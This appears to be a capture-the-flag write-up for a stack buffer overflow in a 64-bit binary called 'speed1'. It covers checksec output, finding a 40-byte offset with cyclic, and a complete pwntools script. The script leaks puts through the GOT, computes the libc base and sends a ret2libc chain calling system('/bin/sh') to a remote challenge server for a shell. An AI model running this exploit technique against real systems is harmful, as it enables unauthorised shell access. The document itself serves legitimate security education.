

This challenge ships a 64bit binary and a libc.so.6 file. So first we test the binary:



Now we test the security of the binary:

```

$ checksec ./speed1
[*] '~/speed1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```


We have to figure out the size of the buffer and the offset to RIP:

```
$ cyclic -n 8 100  
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

```
$ gdb ./speed1
entry
break fgets
c
```


```
$ cyclic -n 8 -l 0x6161616161616166
40
```

It's 40. Perfect.


Since there is ASLR enabled we have to find a way to figure out the address of *system*. We can use a function of the Global Offset Table for that.

Using pwndbg to see the GOT entries:


Now we prepare a two stage payload. First stage finds out the address of puts via GOT. We need to calculate the address for the system-function.  The second stage delivers the ret2libc-payload:

```python
#!/usr/bin/env python3

import os
from pwn import *
import pwnlib.elf

context.log_level = 'debug'
c = remote('speed-01.hfsc.tf',61000)
#c = process('./speed1')
# break: 0x40124d
# c = gdb.debug(['./speed1'], gdbscript='''
#         b *0x40124d
#         c
# ''')
libc = ELF('libc.so.6')
e = ELF('./speed1')

context.binary = e
context.os = 'linux'
context.arch = 'amd64'
rop = ROP(e)

c.recvuntil('b0fz:')

# padding for buffer overflow
rop.raw("A" * 40)
rop.puts(e.got['puts'])
rop.call(0x4010d0) # address of main/entrypoint
print(rop.dump())

info("Stage 1, leaking puts@libc address")
c.sendline(rop.chain())
leakedPuts = c.recvline()[:8].strip()

leakedPuts = int.from_bytes(leakedPuts, byteorder='little')
success(f'Leaked puts: {leakedPuts:x}')
libc.address = leakedPuts - libc.symbols['puts']
info(f"Libc Address: {libc.address:x}")

info("Stage 2, ret2shell")
c.recvuntil('b0fz:')
rop2 = ROP(libc)
rop2.call(rop.find_gadget(['ret']))
rop2.call(libc.symbols['system'], [next(libc.search(b"/bin/sh\x00"))])

padding = (b"A"*40)
payload = b"".join([padding, rop2.chain()])
c.sendline(payload)
c.interactive()
```

As soon as we fire the exploit to the remote server we get a shell and can read out the flag using "cat flag":


